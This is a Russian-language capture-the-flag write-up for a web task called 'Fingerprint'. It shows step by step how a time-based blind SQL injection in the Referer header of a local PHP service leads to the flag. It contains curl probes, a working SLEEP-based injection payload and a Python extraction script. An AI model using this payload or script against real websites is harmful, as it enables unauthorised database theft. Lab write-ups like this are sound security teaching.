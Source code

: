# Fingerprint 

![Spiderman](https://trello-attachments.s3.amazonaws.com/57e50abe9d8488ae13f33d8c/5a2ac308d67d2c2812e7b916/07fb7efd234494710c1b2770e9e879fa/image.jpg)

**Description:** Мы обнаружили любопытный сайтик, который в принципе может следить за людьми. Попробуйте узнать что-нибудь о создателе сайта

**Author:** tiso a.k.a. tisOOv

**Category:** Web

**Score:** 300

**Note:** Для локального запуска запуска сервиса необходимо перейти в директорию source и выполнить указания из README.md

**Write-up:**

Начнём выполнять задание стандартно, откроём сервис в браузере. На странице увидим Make browser fingerprint. Но мы на ссылку сразу не поведёмся, попробуем посмотреть исходный код страницы:

```html
<html>
<head>
    <title>Make your browser fingerprint (Site under construction)</title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-beta.2/css/bootstrap.min.css" integrity="sha384-PsH8R72JQ3SOdhVi3uxftmaW6Vc51MKb0q5P2rRUpPvrszuE4W1povHYgTpBfshb" crossorigin="anonymous">
</head>
<body>
    <div class="container">
        <!-- Content here -->
        <h1>Make browser <a href="fingerprint.php">fingerprint</a>!</h1>
        <div class="row">
            <div class="col-lg-4 col-lg-offset-4">
                <div class="input-group">
                    <input id="search" type="text" class="form-control" /> 
                    <span class="input-group-btn">
                        <button class="btn btn-default" type="button" onclick="location.href='/info.php?' + document.getElementById('search').value;">Get info!</button>
                    </span>
                </div><!-- /input-group -->
            </div><!-- /.col-lg-4 -->
        </div><!-- /.row -->
    </div>
</body>
</html>
<!-- powered on php !-->
```

Ага, почти ничего полезного, но зато мы узнали, что код написан скорее всего на php, и при нажатии Get Info осуществляется перенаправление на страницу, info.php. Также есть страница fingerprint.php, на которую нас любезно зовут сделать отпечаток. Но сперва давайте проверим robots.txt, может там есть что-то полезное. И-и-и там 404. Ну ок, не получилось. Давайте поищем временные, мусорные файлы.. И-и-и, их тоже нет. Ну оок,давайте проверим cookies, может там есть что-то полезное? Эмм, и там ничего. Понятно, значит это задание не похоже на все предыдущие и нам нужно копать что-то новое (кстати, старые файлы и куки следует проверять на всех страничках). Давайте попробуем сходить на страницу fingerprint.php, может сумеем отыскать что-то интересное на ней. При первом заходе на страницу (сразу посмотрим в исходном коде):

```html

<html>
<head>
    <title>Make your browser fingerprint (Site under construction)</title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-beta.2/css/bootstrap.min.css" integrity="sha384-PsH8R72JQ3SOdhVi3uxftmaW6Vc51MKb0q5P2rRUpPvrszuE4W1povHYgTpBfshb" crossorigin="anonymous">

</head>
<body>
    <div class="container">
        <!-- Content here -->
        <h1>Make browser <a href="fingerprint.php">fingerprint</a>!</h1>
        <p>Record #3 1266f6c21a3fba349117fde269759483</p>
    </div>
</body>
</html>
```

Хмм, какая-то запись и судя по всему md5-хеш **1266f6c21a3fba349117fde269759483**. Ну, наверное...
Тааак, ладно, что делать дальше? На этой странице больше ничего нет. Ну давайте посмотрим, что будет, если эту страницу обновить, судя по всему какие-то записи создаются в БД. Может там будет 4 запись и т.д. и мы можем переполнить БД? :) Ну на самом деле на CTF вряд ли такое задание будет, но всё же (на самом деле **не будет**):

```html

<html>
<head>
    <title>Make your browser fingerprint (Site under construction)</title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-beta.2/css/bootstrap.min.css" integrity="sha384-PsH8R72JQ3SOdhVi3uxftmaW6Vc51MKb0q5P2rRUpPvrszuE4W1povHYgTpBfshb" crossorigin="anonymous">

</head>
<body>
    <div class="container">
        <!-- Content here -->
        <h1>Make browser <a href="fingerprint.php">fingerprint</a>!</h1>
        <p>Record #3 {"user_agent":"Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0","referer":null,"remote_addr":"172.17.0.1","fingerprint":"1266f6c21a3fba349117fde269759483"}</p>
    </div>
</body>
</html>
```

Ух, ты. А информации стало больше, мы тут увидели json-ку, которая содержит информацию о нашем браузере и отпечаток нашего браузера. Ну на самом деле это прикольно :) Теперь давайте вспомним (ну или узнаем), что никогда не стоит доверять данным, которые нам передаёт пользователь. А раз эти данные хранятся как-то, возможно они хранятся в БД, а если данные плохо фильтруются или не фильтруются, возможна такая атака, как sql-injection (о ней можете почитать [в хакере](https://xakep.ru/2011/12/06/57950/), [OWASP](https://www.owasp.org/index.php/Blind_SQL_Injection) и вообще в Интернетах информации ооочень много).

Обратим внимание, что в БД пишется такая информация, как user agent, referer, remote addr и fingerprint. Давайте попробуем при помощи curl проверить, возможна ли sql-injection в этих заголовках (да-да, это HTTP-заголовки, можно о них почитать [на Википедии](https://ru.wikipedia.org/wiki/%D0%97%D0%B0%D0%B3%D0%BE%D0%BB%D0%BE%D0%B2%D0%BA%D0%B8_HTTP))

```bash
curl 'http://localhost:9090/fingerprint.php' -H 'Host: localhost:9090' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'
```

Для начала вообще попробуем просто поменять один из заголовков и посмотреть, что произойдёт, и произойдёт ли что-то:

```bash

curl 'http://localhost:9090/fingerprint.php' -H 'Host: localhost:9090' -H 'User-Agent: Test' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'
```
```html
<html>
<head>
    <title>Make your browser fingerprint (Site under construction)</title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-beta.2/css/bootstrap.min.css" integrity="sha384-PsH8R72JQ3SOdhVi3uxftmaW6Vc51MKb0q5P2rRUpPvrszuE4W1povHYgTpBfshb" crossorigin="anonymous">

</head>
<body>
    <div class="container">
        <!-- Content here -->
        <h1>Make browser <a href="fingerprint.php">fingerprint</a>!</h1>
        <p>Record #4 5f571ed9b2853163095a25112a4793c2</p>
    </div>
</body>
</html>

```

Как мы видим, создалась новая запись, значит от заголовков зависит отпечаток (логично, если честно). Таак а теперь давайте проверим на наличие sql-injection уязвимости!

```bash
curl 'http://localhost:9090/fingerprint.php' -H 'Host: localhost:9090' -H "User-Agent: Test'" -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' 
```

```html
Something gonna wrong (remove after release)!!! Query exception: INSERT INTO browser_info(info, fingerprint) VALUES('{"user_agent":"Test\\'","referer":null,"remote_addr":"172.17.0.1","fingerprint":"0fbf02254385999b813e40d3760c4ca5"}', '0fbf02254385999b813e40d3760c4ca5')
```

Ооопс, что-то упало :) да и подсказывает нам, что sql-выражение не валидное!!! То есть да, есть sql-injection + есть возможность отладки выражения, правда, к сожалению, это не ответ БД, а ответ php, так что, судя по всему, нас ждёт [blind-sql](https://www.owasp.org/index.php/Blind_SQL_Injection).

Теперь попробуем сделать рабочий payload и проверить его:

```bash
curl 'http://localhost:9090/fingerprint.php' -H 'Host: localhost:9090' -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0" -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H "Referer: asdf', (SELECT IF(SUBSTRING(t.info, 1, 1) = '{', SLEEP(10), null) FROM (SELECT * FROM browser_info) AS t WHERE id=1));#;"
```

И-и-и действительно, мы будем ждать ответ от сервера некоторое время. Теперь только осталось автоматизировать процесс получения информации из БД. Автор представляет скриптик, написанный на Python, но лично Вы можете писать на чём угодно, к тому же данный скрипт, сразу предупреждаю, ооочень неэффективный, и сделано это специально :). Оставим Вам улучшение скрипта в качестве домашного задания (можете, например, использовать бинарный поиск или другие крутые штуки).

Скрипт на python

```python
import requests
import string
import sys


url = 'http://localhost:9090/fingerprint.php'

payload = b"asdf', (SELECT IF(SUBSTRING(t.info, %d, 1) = 0x%x, SLEEP(5), null) FROM (SELECT * FROM browser_info) AS t WHERE id=1));#;"


idx = 1
char_pos = 0
same_symbol = 0
last_symbol = None
while char_pos < len(string.printable) and same_symbol < 3:
    ch = string.printable[char_pos]
    if ch == '\n':
        char_pos += 1
        continue
    try:
        r = requests.get(url, headers={'referer': payload % (idx, ord(ch))}, timeout=3)
    except requests.exceptions.ReadTimeout:
        idx += 1
        sys.stdout.write(ch)
        sys.stdout.flush()
        if last_symbol == ch:
            same_symbol += 1
        last_symbol = ch
        char_pos = 0
    except Exception:
        char_pos += 1
        pass
    else:
        char_pos +=1
        if char_pos >= len(string.printable):
            print('\nFinish!')
            break

print('\nFinish!')

```

Результат работы скрипта:

```
{'user_agent': 'itf{sql1nj3ct1on1sbayan!!1}'}
```

Флаг - itf{sql1nj3ct1on1sbayan!!1}

Done! :)